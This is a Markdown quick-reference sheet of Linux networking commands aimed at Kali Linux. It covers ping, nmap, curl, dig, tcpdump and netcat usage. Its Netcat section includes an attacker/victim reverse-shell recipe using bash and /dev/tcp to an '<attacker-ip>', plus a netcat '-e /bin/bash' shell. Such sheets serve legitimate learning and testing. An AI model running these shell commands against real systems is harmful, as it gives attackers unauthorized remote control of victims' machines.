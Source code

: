 # **Networking Commands - Linux Quick Reference**
Recommended OS: Kali Linux

## Table of Contents
- [Network Utilities](#network-utilities)
- [Netcat Commands](#netcat-commands)
- [Network Troubleshooting](#network-troubleshooting)

---

## Network Utilities

- **`ping`**: Test connectivity to a host.  `ping <hostname or ip>`
- **`ifconfig`**: Display network info, like IP address.  `ifconfig`
- **`netstat`**: Show network connections and statistics.  `netstat -tuln`
- **`nmap`**: Scan network for hosts and open ports, for one ip, or a range.
  ex. `nmap <ip>` or `nmap 192.168.1.1-20` or `nmap 192.168.1.0/24`
- **`curl`**: Transfer data to and from a server (HTTP, FTP).  `curl http://example.com/file.zip`
- **`route`**: View or modify the routing table.  `route -n`
- **`mtr`**: Diagnostic tool combining ping and traceroute. `mtr <hostname or ip>`

---

## Netcat Commands

- **Listen on port**:  `nc -lvp 1234` (l-listning, v-verbose, p-port)
- **Connect to host**:  `nc <hostname or IP> 1234`
- **Scan for certain ports in a range**: `nc -zv <hostname> 1-100`
- **Send file**:  
  1. Receiver (opens port & prepares to save file):  `nc -lvp 12345 > received_file.txt`  
  2. Sender (connects & sends file to receiver’s IP):  `nc <receiver_ip> 12345 < my_file.txt`
- **Reverse Shell**:  
  1. Sender/Attacker (listens for connection)::  `nc -lvp 4444`  
  2. Receiver/Victim (connects & gives interactive shell to attacker):  `bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1`
  - Note: On some systems use `nc -l -p 1234 -e /bin/bash`  

---

## Network Troubleshooting

- **`dig`**: Query DNS.  `dig example.com`
- **`tcpdump`**: Capture network traffic.  `sudo tcpdump -i eth0` or `sudo tcpdump src host <ip>`
- **`hostname`**: Show or set hostname.  `hostname`

---

*Created by MD Harrell*  
For more info, visit the [Kali Linux Docs](https://www.kali.org/docs/).
